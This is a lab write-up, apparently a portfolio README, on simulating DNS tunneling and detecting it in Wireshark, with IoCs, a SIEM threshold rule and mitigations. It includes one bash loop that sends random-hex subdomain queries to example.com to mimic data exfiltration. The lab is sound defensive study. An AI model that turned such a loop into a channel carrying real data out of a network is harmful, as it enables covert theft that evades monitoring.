


# DNS Tunneling & Data Exfiltration Detection Lab

## Executive Summary
This lab demonstrates the generation and analysis of anomalous DNS traffic to detect DNS Tunneling and potential Data Exfiltration. Using a virtualized Linux environment, Wireshark packet capture, and terminal scripting, I simulated high-entropy DNS queries over UDP Port 53 and analyzed the packet signatures to identify Indicators of Compromise (IoCs).

---

## Lab Environment & Tools
* **Operating System:** Ubuntu Linux (ARM64 VM on UTM / macOS)
* **Packet Analyzer:** Wireshark v4.2.2
* **Traffic Generation:** Bash loop with OpenSSL-generated random hex payloads
* **Protocol Inspected:** DNS (UDP Port 53)

---

## Attack Simulation Steps
1. **Packet Capture Initiation:** Started Wireshark monitoring on interface `enp0s1` filtered for `dns` traffic.
2. **Normal Baseline Test:** Executed standard host resolution (`nslookup google.com`) to establish normal DNS traffic baseline.
3. **Anomalous Traffic Generation:** Generated high-frequency, randomized hex subdomains simulating data exfiltration:
   ```bash
   for i in {1..15}; do nslookup $(openssl rand -hex 16).example.com; done

   ### Wireshark Packet Analysis




   Wireshark Packet Analysis & Findings
1. Packet List & Byte Inspection
Key Observations:
Source & Destination: Source host (192.168.64.2) issued rapid DNS queries to gateway resolver (192.168.64.1).
Record Types: Sequential outbound A and AAAA standard queries.
Payload Structure: Inspection of the raw packet bytes confirms structured data embedded within host query strings.
2. Indicators of Compromise (IoCs)
High Subdomain Entropy: Subdomain prefixes contained randomized, non-human-readable hexadecimal characters instead of standard hostnames.
Abnormal Query Frequency: Spike in query volume generated within millisecond intervals over Port 53.
Increased Frame Length: Packet size increases observed compared to normal DNS baseline lookups.
SOC Detection & Mitigation Strategies
SIEM Detection Logic (Wazuh / Splunk Rule Idea)
Threshold Rule: Trigger a Medium/High severity alert if a single internal IP sends > 30 DNS queries with subdomains longer than 30 characters within a 60-second window.
Entropy Analysis: Implement detection rules evaluating string entropy on DNS query logs.
Network Level Mitigation
DNS Sinkholing / Filtering: Block resolution requests to unregistered or newly registered external domains.
Protocol Inspection: Deploy Next-Generation Firewalls (NGFW) to inspect DNS payload depth and block non-standard DNS communication.
